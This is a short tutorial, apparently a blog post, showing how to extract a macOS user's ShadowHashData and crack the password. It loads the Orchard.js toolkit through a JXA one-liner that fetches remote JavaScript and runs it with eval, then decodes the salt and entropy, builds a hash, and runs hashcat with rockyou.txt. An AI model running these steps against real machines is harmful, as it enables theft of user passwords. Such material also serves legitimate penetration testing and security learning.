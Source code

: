 set up a scripting environment:

```bash
$ osascript -l JavaScript -i
```

then enter the following command:

```js
>> eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('https://raw.githubusercontent.com/its-a-feature/Orchard/master/Orchard.js')),$.NSUTF8StringEncoding)));
```

you can now call functions inside this environment. for example, i want to get my local user data.

```js
Get_LocalUser({user:"bilal"})
```

![alt text](/shadow.png)

the output here is massive. i'm interested in `dsAttrTypeNative:ShadowHashData`, which manifests as a base64 blob. it's easier to save the output to a file, then `grep` it.

```js
Get_LocalUser({user:"bilal"}) > user_data.json
```

```bash
grep -A1 "dsAttrTypeNative:ShadowHashData" user_data.json
```

once you collect the base64 blob above, feed it into the command below and decode it.

```bash
echo <blob> | base64 -D > shadowhash.bplist
```

convert the `plist` to XML. 

```bash
plutil -convert xml1 shadowhash.bplist
```

we'll need the salt (`SALTED-SHA512-PBKDF2`) and entropy sections, and in hex, so let's convert them.

```bash
echo <salt> | base64 -D > salt

xxd -p salt | tr -d '\n'
```

now that we have all the parts, create a hash file for cracking. remember the format: `$ml$iterations$salt$entropy`.

the hashcat command to crack the password is simple, and all you need is a reliable password list (`rockyou.txt`).

```bash
hashcat -m 7100 <hash-file> ~/tools/rockyou.txt
```

